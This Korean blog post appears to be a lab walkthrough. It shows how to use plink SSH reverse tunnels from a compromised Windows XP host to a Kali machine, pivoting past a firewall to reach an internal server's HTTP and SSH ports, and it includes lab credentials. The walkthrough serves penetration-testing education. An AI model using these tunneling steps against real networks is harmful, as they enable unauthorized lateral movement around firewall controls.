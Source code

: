 ```yaml
---
title: 패킷 릴레이와 측면 이동
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-25 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 환경 구성

---

### 환경 구성

환경 구성은 다음과 같다.

ip가 56번(내부) 대역에서 57번(외부) 대역으로 서비스에 접근할 수 있지만, 57번(외부) 대역에서 56번(내부) 대역으로는 서비스 접속이 안되게 설정한다.

![1](https://user-images.githubusercontent.com/59737252/170284643-3a53495b-bfc3-4dc4-8f44-a36d04208285.png){: width="90%"}

<br>

### 방화벽 구성

방화벽은 다음과 같이 설정한다.

외부에서 내부로 서비스 거부하도록 설정한 것이다.

![2](https://user-images.githubusercontent.com/59737252/170301426-f3f817f4-70f7-4401-9747-f7870859072e.png)

<br>

## Step2. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한 후 진행한다.

세션을 얻는 방법은 저번에 사용했던 방법을 참고하면 된다.

<br>

## Step3. 측면 이동

---

### plink 준비

해당 공격을 하기전에 앞서 plink를 윈도우로 옮겨놓는다.

윈도우의 쉘을 얻은 후 plink를 upload 한다.

plink는 윈도우에서 ssh를 사용할 수 있는 도구이다.

<br>

### plink를 사용한 패킷 릴레이

윈도우의 쉘을 얻은 상태에서 아래의 명령어를 입력한다.

```console
C:\WINDOWS\Temp> plink -R 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
```

명령어를 해석하면 다음과 같다.

plink <span style="background-color: #fff5b1">-R</span> 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
<br>
R옵션 : 원격시스템에 포트를 연다.

plink -R <span style="background-color: #fff5b1">4321:</span>192.168.56.80:80 -l root -pw lab 192.168.57.10
<br>
4321포트 : 원격시스템에 4321로 포트를 연다.

plink -R 4321:<span style="background-color: #fff5b1">192.168.56.80:80</span> -l root -pw lab 192.168.57.10
<br>
192.168.56.80:80 : 해당 포트(4321)로 접속하게 되면 192.168.56.80의 80번 포트로 포트포워딩 한다.

plink -R 4321:192.168.56.80:80 -l root -pw lab <span style="background-color: #fff5b1">192.168.57.10</span>
<br>
192.168.57.10 : ssh로 접속할 서버 주소이다.

<br>

만약에 다음과 같은 오류가 나왔다면 칼리에서 ssh를 켰는지 확인한다. <br>
![plink오류](https://user-images.githubusercontent.com/59737252/174429424-7444c865-0ab4-4f03-877b-be5a2394672a.png)

```console
kali# service ssh start
```

<br>

그러면 결과적으로 다음과 같은 구도를 나타낸다.

![3](https://user-images.githubusercontent.com/59737252/170305911-2ae28d03-e41a-4918-9383-af94c96a1c81.png){: width="70%"}

<br>

### plink 사용 (80번 포트)

plink를 사용하여 측면이동을 시도한다.

```console
C:\WINDOWS\Temp> plink -R 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
```

![4](https://user-images.githubusercontent.com/59737252/170306576-f8244884-6e23-4efd-a896-65032580c1fe.png)

그러면 root@kali 로 나오게 된것을 볼 수 있는데

이것은 윈도우에서 칼리로 ssh를 이용해 접속하였기 때문에 그렇다.

<br>

### 포트 확인

```console
kali# netstat -atunp | grep 4321
```

netstat를 이용하여 4321번 포트가 열려있는지 확인한다.

![5](https://user-images.githubusercontent.com/59737252/170307424-ab86eec3-01fa-4f27-949a-75704c0acfac.png)

<br>

### 포트포워딩 확인

자기 자신(localhost)으로 접속하여 포트포워딩이 되는지 확인한다.

192.168.56.80으로 시도하면 방화벽으로 인해 접속이 안되지만

![7](https://user-images.githubusercontent.com/59737252/170308511-b67a2bb6-f3f4-4f6b-a45e-fca68791d35c.png){:width="95%"}

<br>

localhost:4321으로 접속하면 포트포워딩으로 인해 접속이 되는것을 볼 수 있다.

![6](https://user-images.githubusercontent.com/59737252/170307908-3e6e7eed-36a8-4152-a753-aaa5cc6fa9b2.png){:width="95%"}

<br>

tail 명령을 사용하여 로그를 살펴볼수도 있다.

```console
centos# tail -f /var/log/httpd/access_log
```

<br>

### plink 사용 (22번 포트)

같은 방법으로 22번인 ssh를 이용하여 사용해본다.

물론 centos에 ssh 서비스가 실행되어 있어야 한다.

```console
C:\WINDOWS\Temp> plink -R 2222:192.168.56.80:22 -l root -pw lab 192.168.57.10
```

```console
kali# ssh root@localhost -p 2222
비밀번호# osboxes.org
```

![8](https://user-images.githubusercontent.com/59737252/170310764-6be2e501-cf2a-43fb-83b5-3d5d3ebdafcc.png)

